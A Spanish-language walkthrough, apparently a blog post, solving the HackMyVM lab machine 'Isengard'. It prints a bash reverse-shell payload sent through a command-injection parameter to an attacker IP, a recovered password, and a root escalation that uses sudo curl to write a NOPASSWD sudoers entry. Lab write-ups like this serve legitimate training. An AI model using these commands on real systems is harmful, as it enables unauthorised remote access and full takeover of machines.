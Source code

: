 ```yaml
---
layout: post
title: Isengard
date: 2022-12-05
categories: ["HMV", "Enumeration", "Base64", "File Edit"]
thumbnail: "assets/images/Isengard.png"
---
```


# Isengard [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.112 -oG allPorts`
- `nmap -sCV -p80 192.168.1.112 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si nos vamos a la web veremos un texto, es una referencia al `Señor de los Anillos`. Vemos una imagen con unas letras algo extrañas, si inspeccionamos el código veremos un archivo `CSS`, si lo inspeccionamos veremos una nota al principio la cual nos dice la tipografía que quiere añadir, pero todo esto es una distracción, no nos servirá de nada.

En el mismo archivo `CSS` si bajamos hasta el final veremos otro comentario que nos llama mucho más la atención que el anterior:

> /* btw: in the robots.txt i have to put the url /y0ush4lln0tp4ss */

Vemos que nos dice que en el archivo `robots.txt` tiene que poner la `URL` `/y0ush4lln0tp4ss`. Bien! Vamos a ver qué contiene dicho directorio.

Cuando entramos vemos una imagen sin relevancia alguna, así que vamos a `fuzzear` para descubrir directorios y archivos. Para ello utilizaré `GoBuster`, es más rápido que `WFuzz`:

```
gobuster dir -u "http://192.168.1.112/y0ush4lln0tp4ss/" -w directory-list-2.3-medium.txt -x php,txt,html
```

```
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 250]
/.php                 (Status: 403) [Size: 278]
/east                 (Status: 301) [Size: 329] [--> http://192.168.1.112/y0ush4lln0tp4ss/east/]
```

Bien! Vemos otro directorio con el nombre `east`! Cuando entramos sólo vemos una imagen, de nuevo es irrelevante, por lo que de nuevo usaremos `GoBuster`:

```
gobuster dir -u "http://192.168.1.112/y0ush4lln0tp4ss/east/" -w directory-list-2.3-medium.txt -x php,txt,html
```

```
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 285]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/mellon.php           (Status: 200) [Size: 0]
```

Vemos un archivo `PHP` con el nombre de `mellon.php`. Como vemos tiene un tamaño de cero caracteres, seguramente sea porque necesita algún parámetro para que funcione. Para descubir dicho parámetro utilizaré `WFuzz`:

```
wfuzz -u "http://192.168.1.112/y0ush4lln0tp4ss/east/mellon.php?FUZZ=pwd" -w rockyou.txt --hc 404 --hh 0 -t 300
```

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
000014579:   200        1 L      1 W        35 Ch       "frodo"
```

Como vemos con el parámetro `frodo` recibimos una respuesta, si lo vemos en el navegador veremos la ruta en la que se encuentra, por lo que hemos encontrado un `RCE`. Para obtener una Reverse Shell me puse en escucha con `NC` por el puerto (en mi caso) `4444`:

- `nc -nlvp 4444`

Una vez hecho lo anterior me fui a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y me copié la Reverse Shell en `Bash`. Con esto hecho cambié los `&` por su versión `URLencoded` (`%26`).

```
http://192.168.1.112/y0ush4lln0tp4ss/east/mellon.php?frodo=bash -c 'bash -i >%26 /dev/tcp/192.168.1.103/4444 0>%261'
```

Bien! Estamos en la máquina como `www-data`!

### Subida de privilegios #1
Una vez en la máquina como `www-data` tenemos que convertirnos en `Sauron`. Dentro del directorio en el que nos encontramos vemos un archivo con el nombre ded `oooREADMEooo`. Vamos a leerlo:

> it is not easy to find the unique ring
>
> keep searching

Nos dice que no es fácil encontrar el único anillo, que sigamos buscando. También vemos un fichero `ZIP` con el nombre de `ring.zip`, por lo que suponía que todos los anillos que debíamos encontrar tenían el mismo nombre, por lo que con `find` busqué dicho fichero:

- `find / -name "ring*" 2>/dev/null`

Vemos dos resultados: El que está en el directorio en el que nos encontramos y uno más interesante en el directorio `/opt/.nothingtoseehere/.donotcontinue/.stop/.heWillKnowYouHaveIt/.willNotStop/.ok_butDestroyIt/`.

Me pasé el `ZIP` a mi máquina y con `unzip` lo extraje. Vemos un fichero con el nombre `ring.txt`, vamos a ver qué contiene:

```
ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==
```

Es una cadena en `Base64`! Vamos a decodificarla:

- `echo "ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==" | base64 -d`

```
eVhLTXc1d3BTQXJMMkNMWAo=
```

Otra cadena! De nuevo vamos a decodificarla:

- `echo "eVhLTXc1d3BTQXJMMkNMWAo=" | base64 -d`

```
yXKMw5wpSArL2CLX
```

Eso ya no es `Base64`, es la contraseña de `Sauron` (`sauron:yXKMw5wpSArL2CLX`)!

### Subida de privilegios #2
Una vez como `Sauron` podemos ejecutar `sudo -l` para listar todo lo que podemos hacer:

```
Matching Defaults entries for sauron on isengard:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sauron may run the following commands on isengard:
    (ALL) /usr/bin/curl
```

Bien! Podemos ejecutar `CURL` como cualquier usuario, es decir, como `root` sin contraseña. Para poder convertirnos en `root` me creé un fichero con el nombre de `sauron` en mi directorio personal para que con `CURL` llevarlo a `/etc/sudoers.d/` y tener todos los permisos.

Primero vamos a crearnos el fichero para que podamos ejecutar todo sin contraseña y como `root`:

```
sauron ALL=(ALL) NOPASSWD: ALL
```

Una vez hecho esto vamos a la parte de `CURL`:

- `sudo curl file:///home/sauron/sauron /etc/sudoers.d/sauron`

Bien! Una vez hecho esto podemos volver a mirar con `sudo -l` lo que podemos hacer y veremos una línea extra!

```
Matching Defaults entries for sauron on isengard:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sauron may run the following commands on isengard:
    (ALL) /usr/bin/curl
    (ALL) NOPASSWD: ALL
```

Enhorabuena! Estamos como `root` en la máquina víctima! Cuánta enumeración!
